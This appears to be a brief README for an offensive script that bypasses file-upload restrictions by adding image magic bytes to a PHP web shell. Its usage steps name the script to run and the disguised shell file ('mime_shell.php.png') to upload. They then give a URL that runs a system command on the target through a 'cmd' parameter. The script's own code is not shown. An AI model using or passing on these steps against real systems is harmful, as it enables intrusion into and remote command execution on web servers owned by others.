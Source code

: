 # Bypass File Upload Restriction with Magic Bytes

Bypassing File Upload Restriction using Magic Bytes

Usage:

bash magic_bytes.sh

Upload mime_shell.php.png

http://x.x.x.x/uploads/10_10_14_33.php.png?cmd=id
